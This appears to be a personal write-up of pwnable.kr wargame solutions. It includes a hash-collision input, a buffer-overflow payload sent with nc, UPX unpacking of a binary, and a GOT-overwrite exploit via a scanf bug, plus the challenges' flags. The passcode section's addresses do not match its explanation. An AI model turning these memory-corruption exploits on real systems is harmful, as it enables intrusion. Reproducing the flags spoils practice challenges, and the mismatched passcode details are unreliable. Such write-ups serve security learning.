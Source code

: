 
collision: `python -c "import sys; sys.stdout.write('\xc8\xce\xc5\x06'*4 + '\xcc\xce\xc5\x06')" | xargs ./col`
 - daddy! I just managed to create a hash collision :)


bof: `(python -c "print 'a'*52 + '\xbe\xba\xfe\xca'"; cat -) | nc pwnable.kr 9000`
 - Note: the `cat -` is necessary for keeping the connection open and listening
   for our input.
 - `cat flag`
 - daddy, I just pwned a buFFer :)

flag:
 - UPX...? sounds like a delivery service :)

```bash
curl http://pwnable.kr/bin/flag > flag`

# Run strings on it and see that a line tells us it is packed by UPX
strings flag -n 10 | less

# unpack it 
upx -d flag

# string again for the flag
strings -n 10 flag | grep ":)$"
```



#play
 - We see ASLR is enabled `cat /proc/sys/kernel/randomize_va_space`.
   [More](https://linux-audit.com/linux-aslr-and-kernelrandomize_va_space-setting/)


#passcode

Key: Sorry mom.. I got confused about scanf usage :(

Solution: `python -c 'import struct; print "\x41"*96 + struct.pack("<I", 0x0804a018) + "134514147"' 2> /dev/null`

Idea: We want to exploit the Global Offset Table (GOT) to make the call to
`exit` (in the login function) actually call the line `system("/bin/cat
flag")`. Fortunately, their use of scanf allows us to write to an arbitrary
location in memory because the value of passcode1 is interpreted as a pointer
by scanf. 

To make passcode1 point where we want it, we have to use residual data on the
stack left by the call to the welcome function. After some stack examination we
see that the location of the last 4 bytes of the name array are the same
location used for password one. Thus, we need to put our pointer there.

```
import struct; print "\x41"*96 + struct.pack("<I", 0x0804a018)
```

But what should we point to? Here's where the GOT comes in. We use the
following command to figure out the dynamic relocations of the fflush function:
`objdump -R passcode`. In this case, it is at `0x0804a004`. We want to write a
new value to this address (done as part of the vulnerable scanf) to cause the
call to exit to jump to a different bit of code. A bit of disassembly
examination tells use that 0x80485e3 would be a good location as that is the
start of the call to system in the login function. 

